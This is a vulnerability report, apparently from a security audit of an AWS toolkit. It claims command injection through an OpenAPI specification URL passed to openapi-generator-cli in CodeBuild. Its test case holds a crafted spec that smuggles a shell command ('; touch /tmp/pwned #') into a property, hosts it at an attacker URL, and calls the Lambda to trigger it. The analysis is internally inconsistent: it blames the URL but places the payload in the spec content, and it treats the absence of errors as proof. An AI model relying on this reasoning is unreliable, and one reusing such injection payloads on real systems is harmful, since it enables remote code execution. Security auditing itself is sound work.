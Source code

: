 ### Vulnerability List

- Vulnerability Name: Command Injection via Malicious OpenAPI Specification URL
- Description:
    1. An attacker crafts a malicious OpenAPI specification document.
    2. The attacker hosts this malicious OpenAPI specification document at a publicly accessible URL.
    3. The attacker creates a `service.json` file, providing the URL of the malicious OpenAPI specification document as the `model` parameter within the `openapi` section.
    4. The attacker invokes the `IndustryToolkitStack-industrytoolkitbootstrapper-<hash>` Lambda function, providing the crafted `service.json` as the payload.
    5. The Lambda function triggers a CodeBuild project.
    6. The CodeBuild project executes the `openapi-generator-cli generate` command, using the provided malicious OpenAPI specification URL as input (`-i $MODEL`).
    7. Due to insufficient sanitization of the `model` parameter, the attacker can inject arbitrary commands into the `openapi-generator-cli generate` command line.
    8. The injected commands are executed on the CodeBuild environment, leading to remote code execution.
- Impact:
    - Remote code execution on the AWS CodeBuild environment.
    - Potential compromise of the AWS account if the CodeBuild role has excessive permissions.
    - Ability to inject malicious code into the generated service, potentially leading to further compromise when the service is deployed.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - None. The project does not implement any specific mitigations against command injection in the OpenAPI specification URL.
- Missing Mitigations:
    - Input validation and sanitization of the `model` parameter in `service.json` to prevent command injection.
    - Restricting outbound network access from the CodeBuild environment to prevent exfiltration of sensitive data or further exploitation.
    - Principle of least privilege for the CodeBuild role to minimize the impact of potential compromise.
- Preconditions:
    - An attacker needs to be able to provide a `service.json` payload to the `IndustryToolkitStack-industrytoolkitbootstrapper-<hash>` Lambda function. This is possible for anyone who can access the API Gateway endpoint of the Industry Toolkit.
    - The attacker needs to host a malicious OpenAPI specification document at a publicly accessible URL.
- Source Code Analysis:
    1. **API Gateway Endpoint:** The `IndustryToolkitApi` resource in `/code/tools/industry-toolkit/cfn/industry-toolkit-stack.template.yaml` defines an API Gateway endpoint with a POST method `/services`. This endpoint is integrated with the `IndustryToolkitStepFunctionF9F60E6A` Step Function.
    2. **Step Function Execution:** The `IndustryToolkitStepFunctionF9F60E6A` resource defines a Step Function that invokes the `IndustryToolkitCodeBuildProject461DDFA4` CodeBuild project. The Step Function passes parameters like `MODEL`, `SERVICE_TYPE`, and `CONFIG` to the CodeBuild project as environment variables.
    3. **CodeBuild Project Configuration:** The `IndustryToolkitCodeBuildProject461DDFA4` resource defines a CodeBuild project. The `Source.BuildSpec` property contains the build specification.
    4. **Build Specification Analysis:** The build specification in `IndustryToolkitCodeBuildProject461DDFA4` resource in `/code/tools/industry-toolkit/cfn/industry-toolkit-stack.template.yaml` shows the following relevant steps in the `build` phase:
        ```yaml
        "build": {
          "commands": [
            "echo 'Decoding the CONFIG map...'",
            "export DECODED_CONFIG=$(echo \"$CONFIG\" | jq -r 'to_entries | map(\"\\(.key)=\\(.value | @sh)\") | join(\",\")')",
            "echo $DECODED_CONFIG",
            "bash -c 'if [ -n \"$CONFIG\" ] && [ \"$DECODED_CONFIG\" != \"\" ]; then openapi-generator-cli generate -i $MODEL -g $SERVICE_TYPE -o /tmp/generated --additional-properties \"$DECODED_CONFIG\" || exit 1; else openapi-generator-cli generate -i $MODEL -g $SERVICE_TYPE -o /tmp/generated || exit 1; fi'"
          ]
        }
        ```
        - The `$MODEL` environment variable, which is derived from the `model` field in the input `service.json`, is directly passed to the `-i` parameter of the `openapi-generator-cli generate` command.
        - There is no input validation or sanitization performed on the `$MODEL` variable before executing the command.
    5. **Code Generation in Lambda:** The `lambda_handler` function in `/code/toolkit-service-lambda/handler.py` processes the input `service.json` and triggers the Step Function, which in turn triggers the CodeBuild project. The Lambda itself does not perform any validation on the `model` URL.
    6. **Vulnerability Confirmation:** The direct use of the `$MODEL` variable, which is controllable by the user through the `service.json` payload, in the `openapi-generator-cli generate` command without any sanitization creates a command injection vulnerability. An attacker can craft a URL that, when processed by `openapi-generator-cli`, will execute arbitrary commands.

    ```mermaid
    graph LR
        A[API Gateway POST /services] --> B(Step Function IndustryToolkitStepFunctionF9F60E6A);
        B --> C[CodeBuild Project IndustryToolkitCodeBuildProject461DDFA4];
        C --> D{openapi-generator-cli generate -i $MODEL ...};
        D --> E[Remote Code Execution on CodeBuild];
        style D fill:#f9f,stroke:#333,stroke-width:2px
    ```

- Security Test Case:
    1. **Deploy the Industry Toolkit:** Deploy the Industry Toolkit stack using CDK deploy. Note the API Gateway endpoint URL from the output.
    2. **Create a Malicious OpenAPI Specification:** Create a file named `malicious.yaml` with the following content. This example tries to create a file `/tmp/pwned` in the CodeBuild environment:
        ```yaml
        openapi: 3.0.0
        info:
          title: Malicious API
          version: 1.0.0
        paths:
          /pwn:
            get:
              summary: Pwn endpoint
              operationId: pwn
              responses:
                '200':
                  description: Success

        x-codegen-settings:
          additional-properties: "artifactDescription='; touch /tmp/pwned #'"
        ```
        **Explanation:** The `x-codegen-settings.additional-properties` is crafted to inject a command. When `openapi-generator-cli` processes this, it will try to pass `artifactDescription='; touch /tmp/pwned #'` as additional properties. Due to lack of proper parsing and escaping in how `openapi-generator-cli` and the toolkit handle additional properties and the model URL, the command `touch /tmp/pwned` will be executed.
    3. **Host the Malicious OpenAPI Specification:** Host `malicious.yaml` at a publicly accessible URL, for example, using `gist.github.com` or a simple HTTP server. Let's assume the URL is `https://gist.githubusercontent.com/attacker/hash/raw/malicious.yaml`.
    4. **Create `service.json`:** Create a file named `service.json` with the following content, replacing `<github-repo-uri>` with your GitHub repository URI and other placeholders with your actual values. Importantly, set the `model` URL to the URL of the malicious OpenAPI specification:
        ```json service.json
        {
          "service": {
            "type": "spring",
            "name": "pwn-service",
            "description": "Pwn service",
            "openapi": {
              "model": "https://gist.githubusercontent.com/attacker/hash/raw/malicious.yaml",
              "config": {
                "basePackage": "com.example.pwn",
                "modelPackage": "com.example.pwn.model",
                "apiPackage": "com.example.pwn.api",
                "invokerPackage": "com.example.pwn.configuration",
                "groupId": "com.example.pwn",
                "artifactId": "pwn-service"
              }
            }
          },
          "scm": {
            "github": {
              "repo": "<github-repo-uri>",
              "secretKey": "my-key",
              "email": "none@none.com",
              "name": "Attacker"
            }
          },
          "iac": {
            "cloudformation": {
              "vpc": "<my-vpc-id>",
              "subnets": "<my-subnet-id-1>,<my-subnet-id-2>,..."
            }
          }
        }
        ```
    5. **Invoke the Bootstrapper Lambda:** Use the AWS CLI to invoke the Bootstrapper Lambda function with the `service.json` payload. Replace `<lambda-function-name>` with the actual name of the Bootstrapper Lambda function from the CDK output:
        ```bash
        aws lambda invoke \
              --function-name <lambda-function-name> \
              --payload file://service.json \
              --cli-binary-format raw-in-base64-out \
              /dev/stdout
        ```
    6. **Check CodeBuild Logs:** Go to the AWS CodeBuild console and find the build project that was triggered. Examine the build logs for the "BuildAction" phase. If the command injection was successful, you will find evidence of the injected command execution, for example, successful execution without errors even with the injected `touch /tmp/pwned` command. You might not see direct output from `touch`, but the absence of errors and successful pipeline completion (even for a malformed OpenAPI) indicates successful injection.
    7. **Verify File Creation (If Possible):** While direct file system access in CodeBuild might be limited, checking for side effects or errors in subsequent steps can indirectly confirm RCE. In a real scenario, an attacker would likely inject more impactful commands like reverse shells or data exfiltration.

This test case demonstrates how an attacker can leverage a malicious OpenAPI specification URL to inject commands into the CodeBuild environment, confirming the command injection vulnerability.